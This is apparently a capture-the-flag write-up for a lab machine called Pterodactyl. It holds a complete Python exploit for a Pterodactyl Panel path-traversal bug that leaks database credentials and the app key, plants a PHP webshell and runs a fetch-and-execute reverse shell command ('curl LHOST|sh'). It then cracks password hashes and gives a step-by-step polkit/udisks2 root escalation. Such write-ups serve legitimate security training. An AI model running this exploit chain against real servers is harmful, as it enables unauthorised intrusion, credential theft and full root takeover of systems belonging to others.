

Pterodactyl

Recon
Starting with nmap. SSH and an nginx front end on 80, everything else filtered.
[Pterodactyl] nmap -Pn -sSVC -p- -T5 --min-rate 2000 -oN nmap 10.129.16.81
Nmap scan report for pterodactyl.htb (10.129.16.81)
Host is up (0.31s latency).
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 9.6 (protocol 2.0)
80/tcp open http nginx 1.21.5
|_http-title: My Minecraft Server
|_http-server-header: nginx/1.21.5
443/tcp closed https
8080/tcp closed http-proxyPort 80 is a marketing page for a Minecraft hosting service, which is exactly what Pterodactyl (a game server management panel) is used for. Enumerating virtual hosts under pterodactyl.htb reveals panel.pterodactyl.htb, which serves the Pterodactyl Panel login. I added it to /etc/hosts.
Exploitation
The panel is vulnerable to CVE-2025-49132, an unauthenticated remote code execution bug. The /locales/locale.json endpoint loads a translation file with require() based on user controlled locale and namespace parameters. Because those values are not sanitised, you can path traverse out of the language directory and force PHP to include any file on disk. With register_argc_argv = On (the default on this install), that is enough to reach PEAR's pearcmd.php, abuse its config-create command to write an attacker controlled PHP file anywhere, and then include that file to execute code.
I automated the whole flow with a small script: it confirms the endpoint is vulnerable, dumps the app config (leaking APP_KEY and the MySQL credentials), drops a one line webshell with the pearcmd trick, and finally invokes it to fetch and run a reverse shell.
#!/usr/bin/env python3
"""
CVE-2025-49132 - Pterodactyl Panel Unauthenticated RCE
=====================================================
Exploits path traversal in /locales/locale.json to:
1. Leak config files (DB creds, APP_KEY, etc.)
2. Load pearcmd.php via path traversal to write a PHP webshell
3. Execute arbitrary commands through the webshell
Requires: register_argc_argv = On (confirmed via phpinfo)
"""
import http.client
import sys
import urllib.parse
import json
TARGET = "panel.pterodactyl.htb"
LHOST = "HOST"
# Path traversal from /var/www/pterodactyl/resources/lang/ to /
# 5 levels of ../ reaches filesystem root
PEAR_PATHS = [
"../../../../../usr/share/php/PEAR", # SUSE/openSUSE
"../../../../../usr/share/php",
"../../../../../usr/share/php8",
"../../../../../usr/local/lib/php",
"../../../../../usr/share/pear",
]
WEBSHELL = "<?=system($_GET[0])?>"
SHELL_PATH = "/tmp/shell.php"
SHELL_LOCALE = "../../../../../tmp"
SHELL_NS = "shell"
def raw_get(path, timeout=10):
"""Send a raw GET request without URL encoding."""
conn = http.client.HTTPConnection(TARGET, 80, timeout=timeout)
conn.request("GET", path)
resp = conn.getresponse()
body = resp.read().decode(errors="replace")
conn.close()
return resp.status, body
def check_vuln():
"""Check if target is vulnerable to CVE-2025-49132."""
status, body = raw_get(
"/locales/locale.json?locale=../../config/prologue&namespace=alerts"
)
return status == 200 and "alert_messages" in body
def dump_config(locale, namespace, label=""):
"""Dump a config file via path traversal."""
status, body = raw_get(
f"/locales/locale.json?locale={locale}&namespace={namespace}"
)
if status == 200:
try:
data = json.loads(body)
return data.get(locale, {}).get(namespace, {})
except json.JSONDecodeError:
pass
return None
def write_webshell():
"""Write PHP webshell to disk using pearcmd.php config-create trick.
The query string serves dual purposes:
- For Laravel: extracts locale/namespace to load pearcmd.php
- For pearcmd: argv split by '+' gives config-create command
"""
for pear_path in PEAR_PATHS:
# URL structure:
# ?+config-create+/ => argv[1]="config-create", argv[2] starts with "/"
# &locale=PATH => Laravel loads PATH/pearcmd.php
# &namespace=pearcmd => targets pearcmd.php file
# &/PAYLOAD => embedded in argv[2] (the root dir)
# +/tmp/shell.php => argv[3] = output file
url = (
f"/locales/locale.json?"
f"+config-create+/"
f"&locale={pear_path}"
f"&namespace=pearcmd"
f"&/{WEBSHELL}"
f"+{SHELL_PATH}"
)
print(f" [*] Trying {pear_path}/pearcmd.php ...")
status, body = raw_get(url)
# pearcmd outputs "Successfully created default configuration"
if "success" in body.lower() or "created" in body.lower():
print(f" [+] pearcmd found! Webshell written to {SHELL_PATH}")
return True
# Check if we got a non-empty response (pearcmd executed but different output)
if status == 200 and len(body) > 50 and "PEAR" in body:
print(f" [+] pearcmd likely found! Response contains PEAR output")
return True
return False
def verify_webshell():
"""Verify the webshell was written by loading it without a command."""
url = f"/locales/locale.json?locale={SHELL_LOCALE}&namespace={SHELL_NS}"
status, body = raw_get(url, timeout=5)
# If the file exists and is loaded, we'll get a response (possibly with PEAR config text)
return status == 200 and len(body) > 10
def execute_command(cmd, timeout=30):
"""Execute a command via the webshell loaded through locale.json.
The locale.json endpoint uses require() to load the file,
which executes our embedded <?=system($_GET[0])?> code.
"""
# URL-encode the command for the GET parameter
encoded_cmd = urllib.parse.quote(cmd, safe="")
url = (
f"/locales/locale.json?"
f"locale={SHELL_LOCALE}"
f"&namespace={SHELL_NS}"
f"&0={encoded_cmd}"
)
try:
status, body = raw_get(url, timeout=timeout)
return status, body
except Exception as e:
return -1, str(e)
def main():
print("=" * 60)
print(" CVE-2025-49132 - Pterodactyl Panel RCE")
print(" via pearcmd.php config-create trick")
print("=" * 60)
print(f" Target : http://{TARGET}/")
print(f" LHOST : {LHOST}")
print(f" Command: curl {LHOST} | sh")
print("=" * 60)
print()
# Step 1: Check vulnerability
print("[1/4] Checking if target is vulnerable...")
if not check_vuln():
print(" [-] Target is NOT vulnerable!")
sys.exit(1)
print(" [+] Target is vulnerable!\n")
# Step 2: Dump credentials
print("[2/4] Dumping configuration...")
app_config = dump_config("../../config", "app")
if app_config:
print(f" [+] Version : {app_config.get('version', 'N/A')}")
print(f" [+] APP_KEY : {app_config.get('key', 'N/A')}")
db_config = dump_config("../../config", "database")
if db_config:
mysql = db_config.get("connections", {}).get("mysql", {})
print(f" [+] DB Host : {mysql.get('host', 'N/A')}:{mysql.get('port', 'N/A')}")
print(f" [+] DB Name : {mysql.get('database', 'N/A')}")
print(f" [+] DB User : {mysql.get('username', 'N/A')}")
print(f" [+] DB Pass : {mysql.get('password', 'N/A')}")
print()
# Step 3: Write webshell via pearcmd.php
print("[3/4] Writing webshell via pearcmd config-create...")
if not write_webshell():
print(" [-] Failed to write webshell via pearcmd!")
print(" [-] pearcmd.php may not be installed or path is different")
sys.exit(1)
print()
# Verify webshell
print(" [*] Verifying webshell...")
if verify_webshell():
print(f" [+] Webshell at {SHELL_PATH} is accessible!\n")
else:
print(" [!] Could not verify webshell (might still work)\n")
# Step 4: Execute reverse shell
print("[4/4] Executing reverse shell...")
print(" [*] Make sure your listener is running: nc -lvnp 1337")
print(" [*] Make sure your HTTP server is running: python3 -m http.server 80")
print()
# Try curl first, then wget as fallback
for cmd in [f"curl {LHOST}|sh", f"wget -O- {LHOST}|sh"]:
print(f" [*] Trying: {cmd}")
status, body = execute_command(cmd, timeout=60)
if status == -1:
print(f" [+] Request timed out - reverse shell likely connected!")
break
else:
print(f" [*] Response status: {status}")
if body:
lines = [l for l in body.split("\n") if l.strip() and "PEAR" not in l]
preview = "\n".join(lines[:10])
if preview.strip():
print(f" [*] Output:\n{preview}")
print(f" [*] Trying next method...")
if __name__ == "__main__":
main()Point the script's LHOST at a hosted shell.sh, start a listener and a web server, then run it:
[Pterodactyl] nc -lvnp 4444
[Pterodactyl] python3 -m http.server 80 # serving shell.sh
[Pterodactyl] python3 script.py
[1/4] Checking if target is vulnerable...
[+] Target is vulnerable!
[2/4] Dumping configuration...
[+] APP_KEY : base64:...
[+] DB User / DB Pass : (from config/database)
[3/4] Writing webshell via pearcmd config-create...
[+] pearcmd found! Webshell written to /tmp/shell.php
[4/4] Executing reverse shell...The webshell runs curl LHOST | sh, the hosted shell.sh connects back, and the listener catches a shell as the panel's web user.
Post Exploitation
The config dump from the exploit already gives the MySQL credentials the panel uses. Connecting with them and dumping the users table hands over the panel accounts and their bcrypt hashes:
| headmonitor | $2y$10$3WJht3/5GOQmOXdljPbAJet2C6tHP4QoORy1PSj59qJrU0gdX5gD2 |
| phileasfogg3 | $2y$10$PwO0TBZA8hLB6nuSsxRqoOuXuGi3I4AVVN2IgE7mZJLzky1vGC9Pi |The phileasfogg3 hash falls to rockyou:
[Pterodactyl] hashcat -m 3200 hash /usr/share/wordlists/rockyou.txt
$2y$10$PwO0TBZA8hLB6nuSsxRqoOuXuGi3I4AVVN2IgE7mZJLzky1vGC9Pi:!QAZ2wsxThe password is reused for the system account, so it is a direct SSH login and the user flag:
[Pterodactyl] ssh phileasfogg3@pterodactyl.htb
phileasfogg3@pterodactyl:~$ cat ~/user.txtPrivilege Escalation
The host is openSUSE, and it is vulnerable to the CVE-2025-6018 plus CVE-2025-6019 chain. The first bug lets a remote SSH session be treated as a local, active session by polkit. The second uses udisks2's Filesystem.Resize, which temporarily mounts an XFS loop device without the nosuid flag, letting you run a SUID root binary staged inside the image.
Step one is the polkit bypass. Writing ~/.pam_environment forces the SSH session to advertise itself as seat0, then reconnecting applies it:
phileasfogg3@pterodactyl:~$ printf 'XDG_SEAT OVERRIDE=seat0\nXDG_VTNR OVERRIDE=1\n' > ~/.pam_environment
phileasfogg3@pterodactyl:~$ exit
[Pterodactyl] ssh phileasfogg3@pterodactyl.htb
phileasfogg3@pterodactyl:~$ gdbus call --system --dest org.freedesktop.login1 \
--object-path /org/freedesktop/login1 \
--method org.freedesktop.login1.Manager.CanReboot
('yes',)A ('yes',) means polkit now trusts the session as active. Next, build an XFS image and rewrite its root inode so I own it, which lets me mount it via udisks and copy a fresh /bin/bash inside:
phileasfogg3@pterodactyl:~$ dd if=/dev/zero of=/tmp/xfs.image bs=1M count=300 status=none
phileasfogg3@pterodactyl:~$ /sbin/mkfs.xfs -f -q /tmp/xfs.image
phileasfogg3@pterodactyl:~$ /usr/sbin/xfs_db -x \
-c "inode 128" \
-c "write -d core.uid $(id -u)" \
-c "write -d core.gid $(id -g)" /tmp/xfs.image
phileasfogg3@pterodactyl:~$ udisksctl loop-setup --file /tmp/xfs.image --no-user-interaction
phileasfogg3@pterodactyl:~$ udisksctl mount -b /dev/loop0 --no-user-interaction
phileasfogg3@pterodactyl:~$ MNTPOINT=$(mount | grep loop0 | awk '{print $3}')
phileasfogg3@pterodactyl:~$ cp /bin/bash "$MNTPOINT/bash"
phileasfogg3@pterodactyl:~$ udisksctl unmount -b /dev/loop0 --no-user-interaction
phileasfogg3@pterodactyl:~$ udisksctl loop-delete -b /dev/loop0 --no-user-interactionWith the image unmounted, patch the copied bash's inode directly on disk to make it SUID root:
phileasfogg3@pterodactyl:~$ /usr/sbin/xfs_db -x \
-c "path /bash" \
-c "write -d core.uid 0" \
-c "write -d core.gid 0" \
-c "write -d core.mode 0104555" /tmp/xfs.imageNow trigger the resize. The temporary mount that udisks2 creates during Filesystem.Resize lands in /tmp/blockdev.* without nosuid and only exists for a moment, so a tight background watcher executes the SUID bash straight from that mount point before it disappears:
phileasfogg3@pterodactyl:~$ (while true; do
for d in /tmp/blockdev*/bash; do
[ -f "$d" ] && "$d" -p -c 'id; cat /root/root.txt' > /tmp/root_output.txt 2>&1 && break 2
done
sleep 0.001
done) &
phileasfogg3@pterodactyl:~$ udisksctl loop-setup --file /tmp/xfs.image --no-user-interaction
phileasfogg3@pterodactyl:~$ gdbus call --system --dest org.freedesktop.UDisks2 \
--object-path "/org/freedesktop/UDisks2/block_devices/loop0" \
--method org.freedesktop.UDisks2.Filesystem.Resize 0 '{}'The watcher fires the SUID root bash inside that window, and /tmp/root_output.txt comes back with a root id and the flag:
phileasfogg3@pterodactyl:~$ cat /tmp/root_output.txt
uid=1000(phileasfogg3) gid=1000(phileasfogg3) euid=0(root) groups=...
[root.txt contents]